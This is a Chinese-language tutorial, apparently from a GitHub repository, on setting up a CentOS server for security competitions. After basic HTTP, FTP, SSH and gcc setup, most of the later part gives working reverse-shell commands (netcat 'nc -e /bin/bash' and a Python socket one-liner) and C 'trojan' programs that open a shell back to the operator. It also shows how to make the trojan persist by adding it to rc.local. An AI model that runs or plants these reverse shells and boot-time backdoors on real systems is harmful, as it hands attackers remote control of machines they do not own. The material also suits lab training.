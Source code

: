 # centos比赛场景的服务器场景还原


### centos 自动联网
```shell
>>>cd /etc/sysconfig/network-scripts
>>>vi ifcfg-eth0 #修改ONBOOT=no 改为 ONBOOT=yes
>>>service network restart
```
### HTTP服务的安装
>下面是基础的使用知识，附赠一个php站点的搭建实例[dvwa搭建](http://blog.csdn.net/isinstance/article/details/54090936)
```shell
>>> yum install httpd 
>>> vim /etc/httpd/conf/httpd.conf #apache2的配置(题外话：apt-get install apache2　是一样的)
>>> echo "hello class" > /var/www/html/index.html #写一个首页

```

### FTP服务的安装

安装后要把chroot_list_enable=NO这样设置，不然就要指定chroot_list
```shell
>>>yum install -y vsftpd #安装ftp服务
>>>yum install -y lftp #安装测试ftp服务的工具
>>>service vsftpd start #启动ftp服务
>>>service vsftpd status #查看服务的状态
>>>lftp 127.0.0.1 #查看是否可以链接ftp
```


### SSH服务的安装

```shell
>>>yum install openssh*#安装ssh服务，对应的(apt-get install ssh)
```
```shell
vi /etc/ssh/sshd_config #打开配置文件
```
把下面两个配置的＃去掉
```shell
PermitEmptyPasswords no
PasswordAuthentication yes
PermitRootLogin yes　＃确保root可以登录，同理如果做安全加固，这里要注释掉
```
重启
```shell
service sshd.service restart #重启服务
chkconfig sshd on　#设置开机启动
```

### GCC的安装
>gcc是c语言程序的编译程序

```shell
>>> yum install gcc* 
```

### python
>python是自带的不需要安装。。

### nmap
>[nmap详解](http://blog.csdn.net/github_35068711/article/details/51530422)

### c语言编译
>这里面我们讲解一下c语言程序简单的编译技巧
首先安装gcc
```shell
>>> yum install gcc*
```
其次写一个c代码的文件hello.c
```c
#include<stdlib.h>
    int main(int argc,char **argv)
    {
        printf("Hello,Linux.\n");
        exit(0);
    }
```
对单个文件进行编译

```shell
>>>gcc -o hello hello.c
>>>./hello #执行
```

### nc反射
>nc全名是netcat　是一个网络工具，这里面我们使用它来完成我们的反射需要两个电脑

在自己电脑上开启一个端口监听
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> nc -e /bin/bash 192.168.1.101 8080 #在目标电脑上反向连接我们的电脑8080端口，ip是我们自己的ip
>>> ifconfig #在我们自己电脑上执行命令，这就可以对服务器进行操作了，这个叫反射
```
下面我们来完成一个python语言版本的shell反射
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
>>> ifconfig #在本机执行命令
```

### 下面完成我们的任务，编译一个木马，然后利用nc反射一个shell
先编写一个简单的反射shell的c代码
```c
#include<stdlib.h>
main()
{
system(“nc -e /bin/bash 127.0.0.1”);
}
```
或者用下面的版本system.c，反正都是简单的实现
```c
#include<stdlib.h>
int main(int argc,char* argv[])
{
char shell_cmd[100];
sprintf(shell_cmd,"nc -e /bin/bash %s %s",argv[1],argv[2]);
system(shell_cmd);
}
```
### 下面我们来完成完成编译，执行，反射

```shell
>>> gcc -o shelltest system.c #编译c代码
>>> nc -l -p 8080 #本地电脑监听8080端口
>>>./shelltest 127.0.0.1 8080 ＃目标电脑木马反向连接自己的电脑
>>> ifconfig #本地电脑执行命令验证结果
```
### 让我们把这个小“木马”放进开机启动
```shell
>>>chmod +x shelltest
>>>chmod +x /etc/rc.d/rc.local 
>>>vim /etc/rc.d/rc.local＃编辑它并在里面协商./xxx/xx/xx/shelltest
>>>reboot #重启看看效果
```
